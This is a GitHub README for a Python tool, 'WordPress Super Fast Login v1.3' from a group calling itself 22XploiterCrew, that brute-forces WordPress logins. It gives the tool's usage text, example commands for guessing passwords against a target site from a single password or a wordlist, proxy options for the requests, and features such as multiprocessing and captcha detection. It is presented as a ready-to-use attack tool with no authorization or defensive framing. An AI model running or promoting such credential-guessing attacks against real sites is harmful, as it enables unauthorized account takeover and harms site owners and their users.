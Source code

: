 <h1 align="center">WordPress<br/>Super Fast Login v1.3</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.9.0-brightgreen">
  <img src="https://img.shields.io/badge/Languange-English-yellowgreen">
  <img src="https://img.shields.io/badge/License-CC-red">
</p>

> Do the login process very quickly. 
Wordlist over 100 words only takes about 10-15 seconds if successful sign in the target

```
WordPress Brute Force Fast Login
Author : RandsX@22XploiterCrew
E-Mail : dev@22xploitercrew.my.id

usage: python3 wp-crack.py url username [-p|-P] [-x PROXY] [-v VERBOSE]

positional arguments:
  url               url the target
  username          username target

optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and exit
  -v, --verbose     verbose mode/show username and password
                    combination for each attempt
  -p , --password   use one word password
  -P , --passlist   use a few words password
  -x , --proxy      use a socks/proxy for request (ex:
                    127.0.0.1:8080)

Please check your target first so that the login process runs
smoothly
```

## What's new in version 1.3?
- Detect captcha (***the system will automatically stop if the target brings up a captcha***)
- Displays the duration of time when successful login
#### updates in previous versions
- Fixed bugs
- Added a proxy feature for requests
- Using the new module ```requests``` and ```colorama```
- Easy to use
- Multiprocessing

## How to use
The super fast login feature is only available if you guess (brute force) the target using a wordlist password.
- Single password
```bash
without proxy
python3 wp-crack https://site.com username -p password

with proxy
python3 wp-crack https://site.com username -p password -x http://127.0.0.1:8000
```

- List/multi passwords
```bash
without proxy
python3 wp-crack https://site.com username -P password.txt

with proxy
python3 wp-crack https://site.com username -P password.txt -x http://127.0.0.1:8000
```

if you wish to display the password and username that was attempted to sign in into the target, use option ```-v/--verbose```

## Attention
If you find an error, please report here using menu ```Issues``` or can contribute directly with us
